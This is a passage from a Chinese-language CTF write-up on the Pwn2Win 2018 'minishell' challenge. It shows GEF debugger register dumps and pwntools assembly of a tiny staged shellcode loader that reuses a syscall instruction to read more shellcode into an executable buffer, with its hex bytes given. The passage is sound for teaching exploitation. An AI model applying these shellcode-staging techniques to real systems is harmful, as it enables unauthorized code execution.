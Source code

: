 ```gdb
$rdx   : 0xf
$rsp   : 0x00007fffffffd6c0  →  0x00007fffffffd7c8  →  0x00007fffffffdc13  →  "/home/lj/download/minishell"
$rbp   : 0x00007fffffffd6e0  →  0x0000555555554cf0  →   push r15
$rsi   : 0x1000
$rdi   : 0x00007ffff7fcf000  →  0x5e57050f0fb20ab0
$rip   : 0x00007ffff7fcf006  →  0x0000050f5f505e57
$r8    : 0x6
$r9    : 0x0
$r10   : 0x1
────────────────────────────────────────────────────────────────── code:x86:64 ────
 → 0x7ffff7fcf006                  push   rdi
   0x7ffff7fcf007                  pop    rsi
gef➤
```
注意到此時rcx=buf+6，如果向這個地址寫而不是向buf寫（7個字節），那麼將額外得到1個字節。可是我們需要兩個。
```
In [45]: a = pwn.asm('jmp rdi'); a, len(a)
Out[45]: ('\xff\xe7', 2)
```
因爲接下來執行的是buf+12處的指令，讀入的前6個字節沒能發揮作用。要想個辦法用起來。重複利用前面的syscall指令，這樣就可以：
```
In [8]: a = pwn.asm('mov al, 10; mov dl, 7; a: syscall; push rcx; pop rsi; push rax; pop rdi; jmp a'); binascii.hexlify(a), len(a)
Out[8]: ('b00ab2070f05515e505febf8', 12)
In [9]: a = pwn.asm('mov al, 10; mov dl, 7; syscall'); binascii.hexlify(a), len(a)
Out[9]: ('b00ab2070f05', 6)
```
這樣，第二次執行syscall之後，pc指向buf+6。哈哈，正好執行新的shellcode，連jmp rdi都不用了。新的shellcode有7個字節，應該嘗試讀入更多shellcode
```
gef➤  s # 從jmp跳回此處執行
0x00007ffff7fcf004 in ?? ()
 → 0x7ffff7fcf004                  syscall
   0x7ffff7fcf006                  push   rcx
   0x7ffff7fcf007                  pop    rsi
   0x7ffff7fcf008                  push   rax
   0x7ffff7fcf009                  pop    rdi
   0x7ffff7fcf00a                  jmp    0x7ffff7fcf004
gef➤  s
1
0x00007ffff7fcf006 in ?? ()
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x2
$rbx   : 0x0
$rcx   : 0x00007ffff7fcf006  →  0x0000f8eb5f500a31
$rdx   : 0x7
$rsp   : 0x00007fffffffd770  →  0x00007fffffffd878  →  0x00007fffffffdca5  →  "/home/lj/ctf-notes/201812--pwn2win-ctf-2018/minish[...]"
$rbp   : 0x00007fffffffd790  →  0x0000555555554cf0  →   push r15
$rsi   : 0x00007ffff7fcf006  →  0x0000f8eb5f500a31
$rdi   : 0x0
─────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 → 0x7ffff7fcf006                  xor    DWORD PTR [rdx], ecx
   0x7ffff7fcf008                  push   rax
   0x7ffff7fcf009                  pop    rdi
   0x7ffff7fcf00a                  jmp    0x7ffff7fcf004
   0x7ffff7fcf00c                  add    BYTE PTR [rax], al
```
```
此時寄存器的狀態信息: rax=2, rdi=0, rsi=buf+6, rdx=7
read(0, buf+6, size): rax=0, rdi=0, rsi=buf+6, rdx=size
```
